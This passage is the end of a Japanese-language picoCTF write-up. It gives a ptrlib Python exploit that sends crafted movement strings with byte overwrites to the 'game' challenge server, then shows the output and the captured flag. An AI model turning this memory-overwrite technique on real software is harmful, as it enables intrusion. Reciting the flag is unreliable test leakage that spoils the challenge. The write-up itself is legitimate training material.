 ```python
from ptrlib import *

elf = ELF("./game")
# sock = Process("./game")
sock = Socket("nc rhea.picoctf.net 51791")

sock.sendline("aaaaawwwaaaawsddddp") # -> level 2
sock.sendline("aaaaawwwaaaawsddddp") # -> level 3
sock.sendline("aaaaawwwaaaawsddddp") # -> level 4
sock.sendline("aaaaawwwaaaawsddddaa" + ("aaaa" * 12) + "l\x70w") # -> level 5
sock.sendline("aaaaawwwaaaawsddddaa" + ("aaaa" * 16) + "l\xfew") # -> win

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to rhea.picoctf.net:51791
~~~
..........................................................................................
.........................................................................................X
picoCTF{gamer_leveluP_5a39c266}
```
flagが表示された。  

## picoCTF{gamer_leveluP_5a39c266}